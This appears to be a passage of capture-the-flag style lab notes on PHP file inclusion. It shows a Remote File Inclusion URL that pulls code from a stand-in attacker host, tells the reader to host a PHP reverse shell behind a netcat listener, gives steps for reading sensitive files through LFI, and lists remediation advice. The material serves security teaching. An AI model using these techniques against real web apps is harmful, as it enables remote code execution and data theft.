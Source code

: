 
RFI steps

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.

```
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

Visit the following lab URL: http://10.10.77.73/playground.php to try out an RFI attack. 

Save and host a php reverse shell from pentestmonkey and setup a netcat listener.

## #Task 7 Remediation

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.

## #Task 8 Challenge

Great Job! Now apply the techniques you've learned to capture the flags! Familiarizing yourself with HTTP Web basics could help you complete these challenges.

Make sure the attached VM is up and running then visit: http://10.10.77.73/challenges/index.php
Steps for testing for LFI

1. Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!
2. Enter a valid input to see how the web server behaves.
3. Enter invalid inputs, including special characters and common file names.
4. Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
5. Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
6. Understand the input validation and if there are any filters!
7. Try the inject a valid entry to read sensitive files
